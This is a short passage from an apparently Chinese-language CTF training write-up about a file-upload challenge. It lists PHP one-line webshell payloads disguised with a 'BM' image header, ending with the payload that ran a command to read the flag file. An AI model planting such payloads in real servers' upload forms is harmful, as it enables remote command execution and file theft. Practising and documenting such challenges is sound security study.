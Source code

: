 ![](./imgs/20250122集训_connect_fail.png)

按理说应该是可以连接到的，同时我也尝试了一些其他形式

```php
BM<?`$c`?>
BM<?=exec($c)?>
BM<?=`$a`?>
```
发现都链接不到，看wp去了

发现对方用的是

```php
BM<?=`tac/f*`;
```

然后直接读取这个文件即可
![](./imgs/20250122集训_result.png)
